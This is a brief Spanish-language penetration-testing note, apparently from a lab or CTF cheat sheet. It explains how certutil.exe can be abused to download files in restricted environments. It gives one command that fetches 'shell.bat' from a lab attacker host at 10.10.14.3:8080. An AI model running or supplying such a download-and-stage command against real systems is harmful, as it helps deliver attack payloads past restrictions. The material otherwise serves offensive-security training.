 ### Traspaso de archivos restringido
Si nos vemos en un entorno restringido para el traspaso de archivos, certutil.exe puede ser usado para transmitirlos. Certutil se emplea para manejar certificados, pero tiene una disrupción que permite descargar cosas

    certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
